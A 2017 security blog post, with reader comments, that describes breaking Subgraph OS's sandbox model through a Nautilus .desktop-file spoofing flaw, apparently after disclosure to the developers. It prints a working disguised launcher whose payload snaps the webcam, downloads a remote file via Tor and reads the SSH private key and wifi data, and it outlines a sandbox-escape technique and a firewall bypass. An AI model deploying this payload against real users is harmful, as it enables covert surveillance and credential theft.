


Breaking the Security Model of Subgraph OS
I recently traveled to Amsterdam to attend a meeting with Tor Project staff, volunteers, and other members of the wider Tor community. Before trips like this, I prepare a separate travel computer, only bringing with me data and credentials that I might need during my trip. My primary laptop runs Qubes, but this time I decided to install Subgraph OS on my travel laptop. I had only briefly messed with it before, and there’s no better way to learn about a new operating system than by forcing yourself to actually use it for a few days.
Subgraph OS is an “adversary resistant computing platform.” It’s similar to Tails in that it’s based on Debian and all traffic is forced through Tor (that’s changing though: there’s now basic support for clearnet Chromium and OpenVPN). It uses a grsecurity Linux kernel, and many apps run in “oz sandboxes”, a homebrew sandbox solution that protects you even if an attacker manages to exploit a bug in one of these apps. Subgraph OS also includes the Subgraph Firewall, an application firewall similar to Little Snitch for macOS — something that’s pretty awesome, and hasn’t really existed in the Linux ecosystem before. Basically, it’s designed to be an easy-to-use Linux distro that’s extremely secure.
Joanna Rutkowska, the brains behind Qubes, was at the Tor meeting as well. We sat down together and started poking at Subgraph OS to see if we could break its security model, and we succeeded! After we discovered weaknesses, I polished them into a working exploit.
Subgraph publishes a user manual called the Subgraph OS Handbook. You can find the code for it on GitHub. I made a fake website with a link to download this git repository, compressed as a zip file. A realistic targeted attack would probably use different bait — perhaps an attacker would send a journalist some juicy documents — but the point is, the user downloads something from a website, or maybe from their email, and then double-clicks a document to open it. Subgraph OS, with its grsecurity Linux kernel and oz sandboxes, is supposed to prevent malicious documents from taking over your computer, but in this case it doesn’t.
I reported what we found to the Subgraph developers and offered to give them time to resolve the issues before I published this post. They said that none of what I reported was surprising, that Subgraph OS is still in alpha, and that they don’t recommend that people use it yet. But that’s funny, because their website doesn’t seem to include that warning — it describes a list of amazing security features, ending with, “Try the Subgraph OS Alpha today. You can install it on a computer, run it as a live-disk, or use it in a VM.”
They didn’t ask for more time, and they haven’t resolved the issues yet.
To be fair, Subgraph OS is still in alpha, and already it’s more secure by default than many other Linux distros. This same attack also works against Tails, Debian, Ubuntu, Fedora, Arch, etc. (not Qubes though).
How oz sandboxing works
Subgraph comes with sandboxes for 22 applications — things like Tor Browser, OnionShare, Evince (PDF reader), Eye of GNOME (image viewer), Icedove (email client), and VLC (media player). If you run a program that doesn’t have an oz sandbox (such as Nautilus, the built-in file manager, or anything that isn’t one of those 22 programs), then it runs unsandboxed, with access to all your user data.
If you open a malicious PDF that exploits a bug in Evince, the sandbox will limit what the attacker can do. It blocks internet access, so the attacker can’t phone home. It restricts what Linux system calls can be made to only what evince needs to work. It limits access to the filesystem. On a normal Linux computer, if an attacker hacks Evince, they can access all of the user’s data in their home directory (documents, email, PGP and SSH keys, etc.), but the Evince oz sandbox prevents the attacker from accessing any documents except the one that the user opened.
Oz sandboxes themselves seem pretty good at a glance. Though I did find some information leakage. I discovered that /etc is readable. So if you run ls /etc/NetworkManager/system-connections, you can see a list of the computer’s saved wifi networks, even within the sandbox. In oz sandboxes that allow internet access (like the Tor Browser one), this information could be sent back to the attacker — there’s likely other juicy data in there too. When I reported this, the Subgraph devs pointed me to this year-old github issue, showing that they’ve thought about it.
The problem with Subgraph OS’s sandbox approach
Oz sandboxes are similar to macOS app sandboxes — they lock down what specific apps can do so that if those apps get hacked, the attacker is hopefully stuck in the sandbox with very limited access. While this is great, it’s an incomplete solution to endpoint security.
For one thing, most of the programs you run in Subgraph aren’t sandboxed. Most of GNOME isn’t. Nautilus, the graphical file manager, isn’t, and neither is the terminal app. If an attacker can trick a user into running an unsandboxed script in either Nautilus (what my attack does) or in the terminal, it’s game over. If the user installs custom software that doesn’t have an oz profile, and an attacker exploits this software, it’s also game over.
An attacker that gets unsandboxed remote code execution in Subgraph OS has a lot of access. They can see, and exfiltrate, all of the user’s data: PGP keys, SSH keys, stored email, documents, password databases, and everything else. They can listen from the microphone and watch through the webcam. They can learn the network interface’s MAC address, and see nearby wifi access points and bluetooth devices, which can be used to deanonymize the user. They can install a persistent backdoor in your computer.
For another, there’s no way to compartmentalize different parts of your computer for different purposes like you can in Qubes. You can’t make a separate sandbox for working with some untrusted documents, or for keeping certain secrets extra secure, or for managing different anonymous identities online. All of your data in Subgraph OS, at some point, risks getting accessed by unsandboxed programs.
I won’t go into detail about how Qubes does it except to say that it’s a somewhat opposite approach. You have a thin, unsandboxed layer that has total control over your computer, and then everything else is run inside of sandboxes. Qubes also protects sandboxed apps from reading potentially sensitive data off of your clipboard (unless you want it to), and it protects your administrative domain from untrusted input coming from your network drivers and your USB stack. (It’s the only operating system that I’m aware of that, out-of-the-box, protects against BadUSB attacks.)
Hacking the Free Desktop with .desktop files
In the free desktop world, application launchers are .desktop files. Every GUI application on your Linux box has a desktop file, just check /usr/share/applications. If you’re creating a custom application launcher, inside the .desktop file you specify the name of the application, an icon, as well as what to run when you execute it.
If you open Nautilus and browse to a folder with a .desktop file in it, there are two ways it can get displayed.
- If the file isn’t executable, Nautilus doesn’t trust it and shows the full original filename, including the .desktop extension, and a default icon.
- If the file is executable, Nautilus trusts it and shows whatever name and icon is specified in the file. This is why the exploit I built was zipped up, so I could ensure that my malicious .desktop file is executable.
It’s important to note that this is a huge gaping security hole in Nautilus. All Linux users that use Nautilus (including everyone who uses GNOME, Unity, Cinnamon) are vulnerable to getting tricked this way. This bug was reported to Nautilus in January, and it has now been resolved (by, I believe, popping up a warning asking if you trust the source of the desktop launcher before executing it), but the fix won’t be released until Nautilus 3.24.
Debian Stretch ships 3.22.3; Fedora 25 ships 3.22.2; Ubuntu 16.10 ships 3.20.3; Ubuntu 17.04 ships 3.20.4. So it might be some time before this fix actually makes it into distros that people use. The Subgraph devs pointed me to this recent github issue, showing that they’ve thought about this issue too. They also said they’re planning on auditing the Nautilus source code.
The exploit I created is a file called sgos_handbook.pdf.desktop (though I could have named it malware.desktop and it would have looked the same in Nautilus). Here’s what’s inside of it. Note that the name is set to sgos_handbook.pdf, and the icon is gnome-mime-application-pdf which is the default icon for PDFs in Subgraph — these two things make it so you can’t tell that this isn’t a PDF when viewing it in Nautilus. Also, of course, note that it’s set to execute a malicious shell script when it’s run.
#!/usr/bin/env xdg-open
[Desktop Entry]
Encoding=UTF-8
Name=sgos_handbook.pdf
Exec=sh -c 'ROOT=$(dirname $(dirname $(find $HOME -type f -name sgos_handbook.pdf.desktop)) |head -n1); evince $ROOT/static/sgos_handbook.pdf; mkdir $HOME/.config/tools; cd $HOME/.config/tools; torify apt download fswebcam; dpkg-deb -xv `ls fswebcam_*.deb` .; ./usr/bin/fswebcam -r 640x480 $HOME/webcam-snapshot.jpg; torify wget https://static.wixstatic.com/media/6a4a49_4e03bc224328475ea2e20dddaf9d0fda~mv2_d_2121_1414_s_2.jpg -O $HOME/attacker-can-drop-files-from-the-internet.jpg; echo "ifconfig output:" >> $HOME/pwnlog.txt; /sbin/ifconfig >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo "tor exit node info:" >> $HOME/pwnlog.txt; torify curl https://ifconfig.co/json >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo "ssh public and secret keys:" >> $HOME/pwnlog.txt; cat $HOME/.ssh/id_rsa.pub >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; cat $HOME/.ssh/id_rsa >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo "nearby wifi:" >> $HOME/pwnlog.txt; /sbin/iwlist $INTERFACE scan >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt; echo "saved wifi networks:" >> $HOME/pwnlog.txt; ls /etc/NetworkManager/system-connections >> $HOME/pwnlog.txt; echo >> $HOME/pwnlog.txt;'
Terminal=false
Type=Application
Icon=gnome-mime-application-pdf
Here’s a more human-readable, and commented, version of the payload:
#!/bin/sh
# Find the location of the extracted sgos_handbook folder
ROOT=$(dirname $(dirname $(find $HOME -type f -name sgos_handbook.pdf.desktop)) |head -n1);
# Open the actual PDF in an oz sandbox
evince $ROOT/static/sgos_handbook.pdf;
# Take a snapshot from the webcam
mkdir $HOME/.config/tools;
cd $HOME/.config/tools;
torify apt download fswebcam;
dpkg-deb -xv `ls fswebcam_*.deb` .;
./usr/bin/fswebcam -r 640x480 $HOME/webcam-snapshot.jpg;
# Download an image to the home directory
torify wget https://static.wixstatic.com/media/6a4a49_4e03bc224328475ea2e20dddaf9d0fda~mv2_d_2121_1414_s_2.jpg -O $HOME/attacker-can-drop-files-from-the-internet.jpg;
# Log the ifconfig output, which includes the MAC address
echo "ifconfig output:" >> $HOME/pwnlog.txt;
/sbin/ifconfig >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
# Log information about the current Tor exit node
echo "tor exit node info:" >> $HOME/pwnlog.txt;
torify curl https://ifconfig.co/json >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
# Log SSH public and secret key
echo "ssh public and secret keys:" >> $HOME/pwnlog.txt;
cat $HOME/.ssh/id_rsa.pub >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
cat $HOME/.ssh/id_rsa >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
# Log scan of nearby wifi networks
echo "nearby wifi:" >> $HOME/pwnlog.txt;
/sbin/iwlist $INTERFACE scan >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
# Log list of saved wifi networks
echo "saved wifi networks:" >> $HOME/pwnlog.txt;
ls /etc/NetworkManager/system-connections >> $HOME/pwnlog.txt;
echo >> $HOME/pwnlog.txt;
Using .desktop Files to Break Out of a Sandbox
When you open a PDF in Subgraph OS, it opens an Evince oz sandbox that only has access to that one document. However, some sandboxes give you write access to an entire folder. For example, the Tor Browser sandbox lets you read and write to ~/Downloads/TorBrowser, and the LibreOffice sandbox lets you read and write to ~/Documents/LibreOffice.
If you can get sandboxed remote code execution in one of these sandboxes, like by using a Tor Browser or LibreOffice exploit, you can then potentially escalate privileges to get unsandboxed remote code execution by modifying files in those directories.
For example, lets say the user downloads a malicious Word document and double clicks it in Nautilus. Subgraph OS will open a LibreOffice oz sandbox and give it access to that document (let’s say, ~/Downloads/TorBrowser/resume.docx). Let’s also assume that the user has some legitimate documents, like maybe ~/Documents/LibreOffice/draft-proposal.odt.
The payload of the malicious resume.docx could rename draft-proposal.odt to something else, like maybe make it a hidden file called .DS_Store, and then create a new file, draft-proposal.odt.desktop and make it executable. Later, when the user double-clicks what looks like draft-proposal.odt in Nautilus, the attacker escapes the sandbox. (And of course, the payload can even clean up after itself — move .DS_Store back to draft-proprosal.odt and delete draft-proposal.odt.desktop, after installing a backdoor of course.)
Bypassing the Subgraph Firewall
The Subgraph Firewall is pretty cool. It’s an application firewall that lets you approve or deny network connections on a process-by-process basis. As I showed in the video, when you open the GNOME Calculator app, it tries making network connections (to look up currency conversation rates), and but the firewall intercepts these and lets you deny them.
However, it’s trivial to bypass because it allows all Tor traffic through, no questions asked. For example, if you open a terminal and run curl example.com, the firewall intercepts this connection and gives you the option to deny it:

But if you run torify curl example.com, it just works. If you check the payload above, you’ll see that all of the internet requests I made use torify to bypass the firewall.
When I pointed this out to the Subgraph devs, they told me that the Subgraph Firewall wasn’t designed to prevent malware from making network connections, but rather just to prevent incidental privacy leaks (such as with the calculator). So they didn’t consider this a valid security issue.
When they show off the Subgraph Firewall on their website, they neglected to explain this limitation:

However, they do mention it in the Subgraph OS Handbook, but with questionable use of the word “sophisticated”:
Application firewalls are useful for monitoring unexpected connections from applications. For example, some applications may phone home to the vendor’s website. Often this activity is legitimate (non-malicious) but it still may violate the user’s privacy or expectations of how the software operates. Subgraph Firewall gives users the choice to allow or deny these connections.
Malicious code may also phone home to a website or server that is operated by the hacker or malicious code author. Subgraph Firewall can also alert the user of these connections so that they can be denied.
Application firewalls cannot prevent all malicious code from connecting to the Internet. Sophisticated malicious code can subvert the allowed connections to bypass the firewall. However, the firewall may alert the user of connection attempts by less sophisticated malicious code
They did say that they will probably expand the scope and purpose of the firewall in the future — and they pointed to an incomplete branch of their firewall code that would allow intercepting Tor traffic to let the user deny it, some day when it’s done.
How this attack would affect Qubes
Qubes is flexible, so how much the attack succeeds depends on the user’s choices.
In the worst case, the exploit would hack the sandbox (which is called an AppVM, in Qubes lingo) that the user opens it in. This could be their “personal” AppVM full of private data, or a “browser” AppVM that has nothing but a web browser profile, or it could be a Whonix AppVM, where all internet traffic is forced to go over Tor. In any of these cases, the attacker will be stuck in a sandbox and won’t be able to compromise other AppVMs. The attacker also won’t be able to query the hardware — they won’t be able to learn the network interface’s MAC address, or see nearby wifi access points or bluetooth devices, or anything like that. They won’t be able to access the microphone or webcam.
However, some Qubes users are more careful than that. If the user right-clicks on the fake PDF .desktop and chooses “Open in DisposableVM”, the hack will fail. DisposableVMs are basically one-time-use sandboxes that work like this: a new sandbox gets created, the file gets copied into it (in this case, the malicious PDF .desktop file), the file gets opened, and when it’s done running, the entire sandbox is deleted. I just tested this out — for me, sgos_handbook.pdf.desktop actually just opens in Atom, a text editor I have installed.

Even if the payload executes — like, for example, if this were actually a malicious PDF that exploits Evince instead of a .desktop file, it wouldn’t have access to any user data. If the DisposableVM has internet access (which depends on the user’s settings), the payload might be able to phone home, but it won’t be able to tell the attacker anything besides “I’m stuck in a DisposableVM.” It certainly couldn’t take a snapshot from my webcam, record from my mic, or install any sort of persistent malware. And as soon the program closes, the whole sandbox gets deleted.
Final thoughts
Much of the Qubes vs. Subgraph OS debate has focused on the relative security of the two different types of sandboxing: the Xen hypervisor vs. grsecurity/Linux containers. Which is “more secure” is complicated and subjective.
But what gets lost in the debate is the most important difference between the operating systems: Qubes provides security by compartmentalization, while Subgraph OS provides OS hardening and app sandboxes. As this exploit hopefully demonstrates, these are not the same thing.
It’s exciting to see an attempt at a security-hardened Linux distro, but it’s no substitute for the compartmentalization that’s made possible by Qubes.
==
Update April 12, 2017
Subgraph pointed out a typo in this blog post and stated that this attack is possible because of an outstanding vulnerability in Nautilus. One Subgraph developer claimed that this isn’t a bug in Subgraph OS, said that Qubes was just as vulnerable (it’s not), and said, “Do I have to make a video too?” (please do!).
But then last night, Subgraph fixed this not-a-bug in Subgraph OS! Users can upgrade to it.

I tested it out, and it works great (I can’t wait until this patch hits Debian and Fedora, too). I made this little animated GIF to show what sgos_handbook.pdf.desktop now looks like in Nautilus. When it’s executable it still displays it as a .desktop file, when you open it it displays a warning, and only if you click through the warning does it make it appear like a PDF:

This is excellent and fixes this specific issue, but it doesn’t fix the more fundamental problem that Subgraph OS has in trying to be an “adversary resistant OS”: Most software still doesn’t run inside of a sandbox. A future bug in Nautilus or other unsandboxed app (or tricking the target into installing a malicious pip package you control, etc.) will still allow the attacker to take over the computer.


Legacy comments, imported from previous version of this blog:
other
April 12, 2017 12:39 PM
The problem is really the title. It's not "breaking the security model". In subgraph, you trust your file manager. In Qubes, you limit the trust on a per-filesystem basis. They're different models.
It's a good illustration of why people should consider Qubes. But you shouldn't act like the Subgraph team is making a huge mistake. They're designing for different needs.
I tried Qubes but went back to Debian, because Qubes has a lot of limitations and resource requirements that don't fit with how I use my computer. Subgraph will allow me to have some sandboxing and firewall capabilities while still using my computer the way I want.
Micah Lee
April 12, 2017 12:43 PM
Fair assessment.
krishna
April 14, 2017 04:59 AM
is this OS recommend for uploading danger malware/Ransomware/APT to local malware analysis within virtual environment ?
matteo
April 18, 2017 07:08 AM
to have a trusted boot in qubes: https://www.qubes-os.org/doc/anti-evil-maid/ uefi is not yet officially supported (secure boot is not a good thing, trusted boot using anti evil maid is; secureboot is a m$ thing that allow only signed thing to run, and btw signing keys are leaked online.) -your pc ask a password so it know who is using it=you (and allow you and only you to use it and access its data) -qubes antievil maid solve the opposite problem: the pc prove to you that its actually your pc and not a clone/a modified one.
videos run in the virtualized browser being laggy? if the guest vm is another windows you migth try install directx support (from safe mode) and/or adding more ram to the virtual videocard. not sure if it will work well
WhoCares
April 12, 2017 06:24 AM
TL;DR: I hope that'll be clearer re:cooloutac, I'm certainly not trolling about [put your favourite distros here] and I'm praising Qubes people and choices overall as well (if hardware resources will permit). But from my point of view, Qubes OS' approach for a "security model", as a whole, is just as alpha as any other, due to much deeper issues which it addressed (so far) no better than any other except Debian community (which SubGraph is part of).
Micah's claim to have "exploited" SubGraph security model here is, in my view, a little bold or short-sighted (at best). As he wrote himself, it also affects any Nautilus user on any traditional distro. So where's that top-emergency CVE the whole world should hold their breath for, until it's patched and deployed, while it would make GNU/Linux "no better than windows"? Nowhere, thanks for the humour. It's like watching two little babes (here, Qubes and SubGraph), new born and still fighting hard to stabilize their heartbeats, praising one and pointing out how ugly is the other's haircut.
For those who can't seem to get that point, pretty basic I would have thought, I (personally) avoid to use any "alpha" software anywhere outside of a fully isolated VM, and therefore neither use, nor would recommend SubGraph or Qubes to anyone being at risk, for the time being. Also, SubGraph people's reaction is pretty sane, I reckon: they've got lots to do anyway, including plenty of things each a lot more serious than this one -- yes, really -- again it's alpha, still it's a gentle contribution (and publicity nevertheless), they publicly tweet Micah's blog post without any shame, help him bootstrap his new security-expert career. Thunder!
Re: Debian vs. Fedora/RedHat (and their kernel development indeed), I was talking about the desperate need for reproducible builds in order to regain trust in any OS directly in charge of hardware. Because at the core, deployment of software generally, and worse security patches, is poetry (if you doubt, read the latest QSB, link below, from Google Zero to Xen's embargo story).
Currently, your entire trust chain lies with the OS -- in Qubes, that's dom0 -- verifying OpenPGP package signatures to update all components including itself, Xen and/or any other core security bits above or below, which your entire "security by isolation" depends on, as well as all your domains.
Meet rpm and base system from Fedora which, as Qubes devs state in their own docs, is software they "more or less blindly trust". Not blaming anyone: how could they do better anyway? They acknowledged the need for reproducible builds (starting of course, with dom0), but they're bound to Fedora's (complete lack of) interest in the matter. Anyway, they even put in writing their intention to rebase dom0 to something else than Fedora, much lighter they wish (but only after GUI domain will be migrated from KDE in dom0, to Gnome in its own GUI domain, if I recall correctly).
I'm not sure about the current status of the decision on the future of dom0 OS (I searched), but (1) Yes, dom0 is "technically offline", still (2) Yes, it fetches and upgrades itself the traditional OpenPGP way "from the Internetz", even if it organizes these network interactions "indirectly via another domain" and filters what it fetches that way (3) Yes, it still presides your entire system's destiny, including that of Xen and (4) Yes, therefore it matters a lot what OS runs in dom0, it is not only "Xen".
On the hardware side, reading R4 requirements one may notice Qubes authors' attempt to pressure manufacturers a bit, once again, towards the design of stateless systems. They have done more than their part e.g. also ringing the bell about IME, TPM in the past, or so-called "secure enclaves" in more recent CPUs. So forcing Qubes users to adopt these architectures from R4, appears to me as some contradiction. Market pressure, security balance? Is "ze big firmware mess" at least equally bad as "secure enclaves" anyway? May other new architecture features bring "something" positive in such a mess, "somewhat" bending the banzaï towards the other edge of the pot? Is it an absolute necessity to keep installing Qubes on brand new hardware? I guess Qubes answered "Yes" to all three questions, hence their move.
Exactly for these reasons, I moved back to Debian ecosystem few years ago: contrary to you, Micah, it takes me a lot more than "a few days" to (re)learn one, I much value long-term support to not-so-recent hardware, and I'm looking forward to SubGraph and Tails becoming not only safe enough to my criterias, but Debian Pure Blends one nice day, I hope.
Last, whatever I use I doubt I'll ever "feel like God" using it -- seriously Micah, you might want to spread more humility^W caution on Qubes website's testimonies :) That's exactly the kind of false sense of security we all try to educate everyone to stay away from, therefore it should work as a counter-productive advert for Qubes, I feel like they deserve better.
MicahSpeak: Read more on "Qubes' entirely flawed security model"
https://github.com/QubesOS/qubes-core-admin-linux/blob/master/dom0-updates/qubes-receive-updates#L93-L99 https://github.com/QubesOS/qubes-secpack/blob/master/QSBs/qsb-029-2017.txt#L114-L119 https://www.qubes-os.org/doc/dom0-secure-updates/ https://www.qubes-os.org/doc/security-critical-code/ https://www.qubes-os.org/news/2016/07/21/new-hw-certification-for-q4/ https://github.com/QubesOS/qubes-issues/issues/1807 https://github.com/QubesOS/qubes-issues/issues/1919
(and I'll stop there, I swear ;-)
Micah Lee
April 12, 2017 11:20 AM
This is super long, so I'll just respond with a few points:
WhoCares
April 16, 2017 10:30 AM
No, I didn't say that. I said Qubes' security model -- and not Qubes itself -- is and will remain as alpha as any other (not even better than plain Debian), as long as builds are not reproducible. And I'm not confusing why we need these, either.
Indeed I went at length in my two comments above, that was a long effort of mine, for your benefit, so you understand precisely what I'm saying. But I guess I wasted my time, since you're even misquoting me and took it all wrong.
Today we have 0% certainty in the integrity of any OS installed on any machine beyond installation time, because from the moment we accept just one update downloaded over the internetz, it's all down to a single OpenPGP signature. That impacts Qubes, just the same as any other OS. As long as I respect Qubes devs, I don't believe they have superpowers and can guarantee noone else obtained a copy of that key. If you read them carefully, you'll see they don't claim that, either. Distributing a whole malicious ISO would be spotted way too fast, so I guess we're right to trust these. But single package updates are an entire different things, even over Tor (which I use also with apt on Debian by the way, for long already). Not to mention past or future privilege escalations, etc. If you ignore that, you have a false sense of security.
By the way, I've read this Qubes ticket you're pointing long ago, because once it will be reproducible (and Fedora is stripped out of dom0) then I'll be interested in Qubes as well as in SubGraph: then, and only then, I'll feel like the overhead is worth the sacrifice. But in your links, there's (still) nothing much on this topic, what you should read instead is that thread (sorry, I thought I had provided it above, and you should read all my other links too):
https://groups.google.com/forum/#!msg/qubes-devel/gq-wb9wTQV8/mdliS4P2BQAJ
(eventually, you'll also gain a more relative opinion on how young Qubes still is under the hood, just reading the thread's last comment -- and its date. Again it's pretty normal, any OS needs years and years to mature)
Finally, as I tried to explain also, of course new architectures do bring new security features, but also evil things like "secure enclaves" and other bits which, as long as we don't have stateless hardware, bring more dangers than benefits -- I believe. So did e.g. Johanna and others, read them or even ask them if you don't believe me, since you're in touch with them. You'll see that at least I have read them at length and with much attention.
Enjoy Easter holiday! :)
heyyess
April 11, 2017 12:00 PM
Oh, forgot to mention, typo: "if we could break it’s security model" its* :]
Besides great article!
Micah Lee
April 11, 2017 01:58 PM
Thanks, fixed
Mast O'don
April 14, 2017 12:50 AM
You broke Subgraph's security model by running malicious code in an untrusted non-sandboxed domain (at the moment)?
Isn't that like me running malicious code in dom0 and saying that I broke Qubes' security model?
thinkbeforeyoushitpost
April 11, 2017 02:04 PM
This entire blog post is just shilling for QubesOS. Subgraph is in alpha and you should know what alpha means. Before you start talking about code execution or local priv escalation you should look at the track record grsecurity/PaX have. You are now just shilling, and VM escapes are possible just like there is a bug in any software.
https://xenbits.xen.org/xsa/
And it doesn't really matter who finds the bug, because there are alot of people that happly sell a xen 0day to anyone.
burp
April 11, 2017 02:54 PM
looks like you are interested in this link listing which XSA affect Qubes (<10%):
https://www.qubes-os.org/security/xsa/
changing a filename doesn't cost you anything. would love to know the going rate of Xen 0days given how much sensitive and financially lucrative infrastructure depends on it.
the blogpost is about the security model of Subgraph and uses this bug as an illustration, the point is not that there are bugs in Subgraph.
as Micah points out in another comment, grsec-enabled kernels are being worked on in Qubes since the Subgraph devs weren't interested in being funded to work on it:
https://coldhak.ca/blog/2016/12/12/coldkernel-qubes-1.html https://github.com/coldhakca/coldkernel
Micah Lee
April 11, 2017 03:53 PM
Oh cool, I wasn't aware of that link on the Qubes website. Thanks!
cooloutac
April 11, 2017 07:34 PM
They don't even use all of grsecurity/PaX protections though dunno why.
Terry A. Davis
May 17, 2017 06:26 PM
It's TempleOS for you, cianigger. templeos.org
Matteo
April 14, 2017 03:59 AM
@Mast O'don "You broke Subgraph’s security..." yes, correct but the conclusion is wrong: the difference is that subgraph claim to be secure by default/superior security/above the standard but the reality is that it's enough to double click a file to take over the FULL pc. i understand that: -is in alpha -nautilus wasn't sandboxed (so to be precise they don't breaked the sandbox, they bypassed it); now you can use the term you want but the result is full pc compromised. and if you say "what if it was sandboxed?" the answer is: NOW IT ISN'T, by design! also if they sandbox nautilus other apps that you install will not be sandboxed. the problem/fault here is not only nautilus bug, it's also their decision to not sandbox nautilus so they left a big hole in their project. qubes os doesn't have such big hole: qubes is secure by default, no matter what apps you install, no need special configuration. they solved the mail phishing to get malware on pc: normally people say "don't open suspicious email" but emails are designed to be opened and people is not stupid "click here to get a free virus" noone will click but turn it in "hello this is your state, you haven't payed taxes compile this module or you will pay fine of 1000 dollars" everyone will click. also on qubes! but the difference is that qubes users have a different tip: "open ANY link or attachment in disposable virtual machine" ANY means any, no need to think or differentiate between suspiscious or not and if you do this you will not be compromised!
and what if users don't follow this simple tip? that will be partially compromised (not fully like other os)
they are also working to automate this thing "open always in dispvm" so users need to do nothing
and what if someone phish people into running something in dom0? (like you were saying) because the point it's not that people can run code in dom0 thats obvios, it's your pc, you can do what you want with it. the point is how you trick a user into doing that without he understanding what is he doing? i don't think this is plausible, there is NO plausible reason that will convince user to do that and also if they try it's not easy to copy somehting in dom0, they will need to google how to do it and they will end up in the docs that say "never do this"
this is the big difference: dom0 is important and so its well protected also from its own users! subgraph should protect any app with a sandbox otherwise people will abuse the not protected one and they haven't done this.
to conclude: when i read "users pick up random usb and plug them in pc" i don't think "user is stupid" i think that they are doing something normal, usb are designed to be plugged so don't blame users for this, blame microsoft for having autorun / having so insecure pc that can be taken over by doing somehting simple like plugging usb
111
April 15, 2017 10:02 AM
"NOW IT ISN’T, by design!"
You probably only read joanna's toots and didn't look at the github issues that were open before micah and joanna went looking for material to write this article with. Their plan is very much to tackle nautilus and other parts of GNOME. If only micah and joanna responded to this like they did to the GNOME foundation people telling them it's not a security issue (hint: they both didn't argue and instead praised GNOME). If that was the attitude SGOS took I doubt that would have been their response.
This reads like a hack tech journo hitjob
Micah Lee
April 17, 2017 07:02 AM
We didn't go looking for material for this article at all.
We went looking to see how easy it would be to make a PoC that could hack my travel computer, which was running Subgraph OS. Then I privately disclosed the weaknesses we found to Subgraph and gave the developers two weeks to resolve them, and offered to give them more time if they needed it.
They responded with a lot of "this isn't surprising, we're already aware of these things, we've been thinking about them for awhile" -- and they sent me the github issues to show that they had been thinking about them for awhile (which I linked to in the article). But they made it pretty clear that they didn't think this vulnerability was a big deal and weren't planning on doing anything about it.
But thanks to this blog post, Subgraph has fixed this pretty huge hole in the security of their OS, and users are more secure now than they were before I wrote it. It clearly wouldn't have gotten fixed anytime soon without a bit of public shaming, which is a reasonable way to respond when your private vulnerability disclosure gets dismissed as not a big deal.
Irony 2.0
April 24, 2017 02:57 AM
> It clearly wouldn’t have gotten fixed anytime soon without a bit of public shaming, which is a reasonable way to respond when your private vulnerability disclosure gets dismissed as not a big deal.
This is so ironic since this is exactly what Qubes OS lead dev does:
"In Qubes Nautilus is not part of the TCB, so this bug is not critical. So, we leave it up to whatever template's distro to release patches."
https://twitter.com/rootkovska/status/852525011168612352
Micah Lee
April 24, 2017 08:40 AM
This is because in Qubes, this bug is not a critical vulnerability.
You can't use this bug to break out of a Qubes sandbox, but you can use it to break out of Subgraph OS sandbox.
Name *
May 20, 2017 03:27 AM
I haven't used Subgraph OS, but it smells to me like it could be similar to Liberté Linux, one version released (in 2012) and nothing since.
"When I pointed this out to the Subgraph devs, they told me that the Subgraph Firewall wasn’t designed to prevent malware from making network connections"
LOL! Don't walk, RUN away from those devs!
To be fair
April 12, 2017 12:47 PM
Well he did provide a video:
https://twitter.com/bleidl/status/851969179980845056
(His point wasn't that it escaped the AppVM but that it was still not fixed in Qubes' template VMs using Nautilus)
Ace Ventura
September 22, 2017 07:12 AM
My biggest problem with Qubes is that its hardware support is quite limited. I could not make it work at all with a Dell E7450. It just did not see any network hardware: bluetooth, ethernet, wifi. On the other hand, when I put Kali on the same desktop, it told me it needs firmware for the Intel chip and asked if it should download it from the Intel site. I said yes and got a working system.
